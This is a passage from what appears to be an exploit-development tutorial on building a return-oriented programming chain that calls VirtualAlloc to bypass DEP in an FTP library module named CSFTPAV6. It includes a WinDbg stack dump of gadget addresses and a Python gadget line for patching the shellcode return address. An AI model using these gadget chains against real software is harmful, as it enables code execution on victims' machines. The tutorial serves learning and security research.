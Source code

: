 If we inspect the stack (a bit down as we have inserted a lot of gadgets) we can see that the address pointed by `esi` is the dummy value, that has been replaced with the correct value of `VirtualAlloc`:
```c
 0:002> dds esp - 54
00fbe2ec  41414141
00fbe2f0  76605680 KERNEL32!VirtualAllocStub // [esi] pointed here, we managed to overwrite this value
00fbe2f4  46464646
00fbe2f8  00000000
00fbe2fc  48484848
00fbe300  00000000
00fbe304  00000000
00fbe308  00fbe30c
00fbe30c  5050118e CSFTPAV6+0x118e // These are our ROP gadgets and values
00fbe310  42424242
00fbe314  505115a3 CSFTPAV6!FtpUploadFileW+0x705
00fbe318  ffffffe4
00fbe31c  5051579a CSFTPAV6!FtpUploadFileW+0x48fc
00fbe320  00fbe2f0
00fbe324  5053a0f5 CSFTPAV6!FtpUploadFileW+0x29257
00fbe328  ffffffff
00fbe32c  505115a3 CSFTPAV6!FtpUploadFileW+0x705
00fbe330  5054a221 CSFTPAV6!FtpUploadFileW+0x39383
00fbe334  5051579a CSFTPAV6!FtpUploadFileW+0x48fc
00fbe338  5051f278 CSFTPAV6!FtpUploadFileW+0xe3da
00fbe33c  50524ea4 CSFTPAV6!FtpUploadFileW+0x14006
```

# Patching the return address (our shellcode) using ROP
Remember that we inserted a dummy address prior to the call to VirtualAlloc? This is the dummy address that will be in the top of the stack when VirtualAlloc executes the `ret` instruction. As we haven't performed a call instruction as we are jumping via gadgets, we have to push the dummy address manually. 
Now, we pushed a dummy address, that we need to patch with the dynamic address of where our shellcode is located. We will do basically the same as we did with VirtualAlloc: First, we must align ESI with the placeholder value for the return address on the stack. Then we need to dynamically locate the address of the shellcode and use it to patch the placeholder value.

**Note: We can avoid starting from 0 as when the last ROP chain was executed, ESI was storing the address of VirtualAlloc, which is 4 bytes lower than the return address.** Remember what information do your register contain in order to reuse it. An instruction like `add esi, 0x04` would be great but it's not available in this module.
In our case, we can find an INC ESI instruction. It's not clean, but there are several gadgets that can do not have bad side effects, like the following:
```
rop += pack("<L", (0x50522fa7)) # inc esi ; add al, 0x2B ; ret
```
Note that the INC instruction increments the register by one byte, so we have to add the instruction four times in order to increment esi by four bytes. The side effect will only modify EAX, which we do not have to worry about at this point:
